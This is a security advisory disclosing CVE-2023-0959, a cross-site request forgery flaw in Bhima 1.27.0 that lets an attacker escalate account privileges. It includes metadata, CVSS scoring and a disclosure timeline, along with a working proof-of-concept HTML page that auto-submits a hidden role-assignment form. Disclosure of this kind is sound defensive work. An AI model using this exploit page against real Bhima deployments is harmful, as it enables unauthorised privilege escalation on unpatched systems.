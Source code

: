 ```yaml
---
slug: advisories/calamaro/
title: Bhima 1.27.0 - Privilege Escalation via CSRF
authors: Carlos Bello
writer: cbello
codename: calamaro
product: Bhima 1.27.0 - Privilege Escalation via CSRF
date: 2023-04-10 12:00 COT
cveid: CVE-2023-0959
severity: 8.0
description: Bhima 1.27.0      -      Privilege Escalation via CSRF
keywords: Fluid Attacks, Security, Vulnerabilities, CSRF, Bhima, Privilege Escalation
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Bhima 1.27.0 - Privilege Escalation via CSRF                       |
| **Code name**         | [Calamaro](https://en.wikipedia.org/wiki/Andr%C3%A9s_Calamaro)     |
| **Product**           | Bhima                                                              |
| **Affected versions** | Version 1.27.0                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-04-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                                                  |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)                               |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.0                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0959)                                               |

## Description

Bhima version 1.27.0 allows a remote attacker to update the privileges
of any account registered in the application via a malicious link sent
to an administrator. This is possible because the application is vulnerable
to CSRF.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF.
In this way we can persuade an administrator to elevate the privileges
of an arbitrary account.

## Exploitation

### Exploit.html

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost:8082/roles/assignTouser" method="POST">
      <input type="hidden" name="user_id" value="6" />
      <input type="hidden" name="role_uuids" value="5B7DD0D692734955A703126FBD504B61" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Evidence of exploitation

![Priv-Escalation-csrf](https://user-images.githubusercontent.com/51862990/220748412-3b636ab7-8c8b-4c9b-b715-8d4812cac2da.gif)

## Our security policy

We have reserved the ID CVE-2023-0959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Bhima 1.27.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/IMA-WorldHealth/bhima/>

## Timeline

<time-lapse
  discovered="2023-02-22"
  contacted="2023-02-22"
  replied="2023-02-22"
  confirmed=""
  patched=""
  disclosure="2023-04-10">
</time-lapse>
